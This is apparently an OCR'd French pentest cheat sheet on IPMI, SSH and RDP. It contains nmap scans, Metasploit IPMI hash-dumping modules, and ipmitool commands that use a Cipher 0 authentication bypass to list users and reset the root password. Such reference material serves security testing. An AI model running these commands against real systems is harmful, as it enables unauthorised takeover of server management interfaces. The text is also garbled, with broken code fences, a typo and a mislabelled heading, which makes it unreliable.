 ```shell
```shell
#### IPMI

### Énumération dans une plage réseau
```bash
`nmap -n-sU -p 623 $ip/24`
```shell
### Exécuter tous les scripts nmap liés au protocole IPMI
```bash
`sudo nmap -sU --script ipmi* -p 623 $ip`
```shell
### Détection de la version IPMI
```bash
`msf6 auxiliary(scanner/ipmi/ipmi_version)`
```shell
### Extraire les hachages IPMI. Similaire à l'attaque de récupération de hachage de mot de passe à distance d'authentification IPMI 2.0 RAKP
```bash
`msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)`
```shell
### **Attaque de contournement d'authentification IPMI via Cipher 0**<br>Installer ipmitool et utiliser Cipher 0 pour extraire une liste d'utilisateurs. Avec -C 0, tout mot de passe est accepté
```bash
`apt-get install ipmitool`<br>`ipmitool -I lanplus -C 0 -H $ip -U root -P root user list`
```shell
### **Attaque de récupération de hachage de mot de passe à distance d'authentification IPMI 2.0 RAKP**<br>Installer ipmitool et changer le mot de passe de root
```bash
`apt-get install ipmitool`<br>`ipmitool -I lanplus -C 0 -H $ip -U root -P root user set password 2 abc123`
```shell
### Gestion à Distance Linux

### Audit de sécurité à distance du service SSH cible
```bash
`ssh-audit.py <FQDN/IP>`
```shell
### Se connecter au serveur SSH en utilisant le client SSH
```bash
`ssh <user>@<FQDN/IP>`
```shell
### Se connecter au serveur SSH en utilisant une clé privée
```bash
`ssh -i private.key <user>@<FQDN/IP>`
```shell
### Forcer l'authentification par mot de passe
```bash
`ssh <user>@<FQDN/IP> -o PreferredAuthentications=password`
```shell
### Gestion à Distance Windows

#### RDP

### Analyse du service RDP
```bash
`nmap -Pn -sV -p3389 --script rdp-* $ip`
```shell
### Un script Perl nommé [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) a été développé par [Cisco CX Security Labs](https://github.com/CiscoCXSecurity) qui peut identifier de manière non authentifiée les paramètres de sécurité des serveurs RDP basés sur les poignées de main
```bash
`git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check`<br><br>`./rdp-sec-check.pl $ip`
```shell
### Se connecter au serveur RDP depuis Linux
```bash
`xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>`
```shell
```